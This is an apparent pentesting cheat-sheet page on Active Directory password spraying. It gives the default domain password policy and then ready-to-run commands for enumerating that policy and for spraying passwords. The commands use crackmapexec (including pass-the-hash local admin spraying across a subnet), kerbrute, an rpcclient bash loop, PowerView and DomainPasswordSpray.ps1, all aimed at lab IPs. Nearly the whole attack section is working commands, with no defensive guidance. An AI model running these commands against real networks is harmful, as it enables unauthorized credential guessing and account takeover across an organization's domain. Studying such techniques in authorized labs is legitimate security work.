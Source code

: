 ```yaml
---
title: "Password Spraying"
Description: Default password policy, enumerating the password policy, domain passoword spraying
draft: false
images: []
menu:
  docs:
    parent: "Active Directory"
weight: 3
toc: true
---
```

## <span style="color:#208355"> Password Policy

The default password policy when a new domain is created is as follows, and there have been plenty of organizations that never changed this policy:

|     Policy     |      Default Value         |
|:----------|:-------------|
|Enforce password history| 	24 days|
|Maximum password age|	42 days|
|Minimum password age|	1 day|
|Minimum password length|	7|
|Password must meet complexity requirements|	Enabled|
|Store passwords using reversible encryption|	Disabled|
|Account lockout duration|	Not set|
|Account lockout threshold|	0|
|Reset account lockout counter after|	Not set|

### <span style="color:#208355"> Enumerating the Password Policy - from Linux

```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
```python
rpcclient -U "" -N 172.16.5.5

rpcclient $> querydominfo
rpcclient $> getdompwinfo
```
```
enum4linux -P 172.16.5.5
```
```
enum4linux-ng -P 172.16.5.5 -oA enum4linuxOutput
```
```python
ldapsearch -h 172.16.5.5 -x -b "DC=EXAMPLE,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
### <span style="color:#208355"> Enumerating the Password Policy - from Windows
```
C:\kryot> net accounts
```
```python
PS C:\htb> import-module .\PowerView.ps1
PS C:\htb> Get-DomainPolicy
```
## <span style="color:#208355"> Password Spraying

### <span style="color:#208355"> Internal Password Spraying - from Linux

Bash oneliner
```powershell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
Kerbrute
```
kerbrute passwordspray -d example.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
Crackmapexec
```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
Local Admin Spraying with CrackMapExec

```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

### <span style="color:#208355"> Internal Password Spraying - from Windows
<span style="color:#208355"><a href="https://github.com/dafthack/DomainPasswordSpray" target="_blank">DomainPasswordSpray.ps1</a></span>

```
PS C:\kryot> Import-Module .\DomainPasswordSpray.ps1
PS C:\kryot> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

Kerbrute.exe
```
kerbrute.exe passwordspray -d example.local --dc 172.16.5.5 valid_users.txt  Welcome1
```